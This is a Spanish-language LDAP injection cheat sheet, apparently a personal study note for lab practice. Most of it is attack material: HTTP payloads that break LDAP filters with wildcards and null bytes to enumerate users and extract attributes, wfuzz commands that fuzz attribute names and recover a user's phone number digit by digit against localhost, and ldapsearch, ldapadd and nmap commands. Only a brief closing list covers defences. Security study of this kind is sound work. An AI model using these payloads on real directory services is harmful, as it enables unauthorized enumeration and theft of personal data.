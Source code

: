 ```yaml
---

### 🗃️ **LDAP Injection Cheat Sheet**

---
```

---
#### **¿Qué es una inyección LDAP?**

Las inyecciones LDAP (Lightweight Directory Access Protocol) son un tipo de ataque en el que un atacante **inyecta comandos LDAP maliciosos** en campos de entrada web que interactúan con un servidor LDAP.  
Si la aplicación no valida adecuadamente la entrada, el atacante puede manipular las consultas LDAP para:  

- **Acceder a información confidencial** de usuarios o recursos.  
- **Modificar datos**: agregar, eliminar o modificar usuarios y recursos.  
- **Realizar operaciones maliciosas** en la red, como phishing o instalación de malware.  

---

### **Ejemplos de Ataques LDAP Injection**

#### **Enumeración de usuarios:**
```http
user_id=o*&password=\*&login=1&submit=Submit
```
- **Indicador de éxito:** Código de respuesta **301**, lo que indica que el usuario existe.  
- **Nota:** Utiliza el comodín `*` para enumerar.  

#### **Inyección LDAP Básica:**
```http
user_id=omar)(mail=\*))%00&password=\*&login=1&submit=Submit
```
- **Objetivo:** Obtener información del atributo `mail` para el usuario `omar`.  
- **Indicador de éxito:** Respuesta HTTP exitosa o cambio en la respuesta.  

---

### **Fuzzing de Atributos con Wfuzz**

#### **Fuzzing de Atributos LDAP:**
```bash
wfuzz -c --hh=550 -w /usr/share/seclists/Fuzzing/LDAP-openldap-attributes.txt -d 'user_id=admin)(FUZZ=\*))%00&password=\*&login=1&submit=Submit' http://localhost:8888
```
- **Uso de diccionario:** Prueba diferentes atributos para identificar posibles campos válidos.

---

#### **Enumeración de Teléfonos:**
- **Primer número:**
  ```bash
  wfuzz -c --hh=550 -z range,0-9 -d 'user_id=fran)(telephoneNumber=FUZZ*))%00&password=\*&login=1&submit=Submit' http://localhost:8888
  ```
- **Segundo número:**
  ```bash
  wfuzz -c --hh=550 -z range,0-9 -d 'user_id=fran)(telephoneNumber=5FUZZ*))%00&password=\*&login=1&submit=Submit' http://localhost:8888
  ```
- **Nota:** Repite el proceso para cada posición del número.  

---

### **Comandos Útiles para Interactuar con LDAP**

#### **Búsqueda en el Servidor LDAP:**
```bash
ldapsearch -x -H ldap://localhost -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin 'cn=admin'
```
- **Descripción:** Realiza una consulta LDAP para obtener información.  
- **Tip:** Puedes usar scripts de nmap para identificar argumentos válidos:
  ```bash
  sudo nmap --script ldap* -p 389 localhost
  ```

---

#### **Añadir Usuarios a LDAP:**
```bash
ldapadd -x -H ldap://localhost -D "cn=admin,dc=example,dc=org" -w admin -f newuser.ldiff
```
- **Descripción:** Añade un nuevo usuario usando un archivo LDIF.  
- **Archivo `newuser.ldiff`**:
  ```
  dn: cn=newuser,dc=example,dc=org
  objectClass: inetOrgPerson
  cn: newuser
  sn: user
  uid: newuser
  userPassword: password123
  ```
---

### **Aclaraciones Importantes:**
1. **Validación de entrada:** Evita el uso directo de la entrada del usuario en consultas LDAP.  
2. **Uso de caracteres especiales:** Asegúrate de escapar correctamente los caracteres peligrosos.  
3. **Monitorización continua:** Implementa alertas ante patrones sospechosos en el tráfico LDAP.  

---

**Consejo:** Guarda esta cheat sheet en Obsidian para tener siempre a mano los comandos y técnicas. 🚀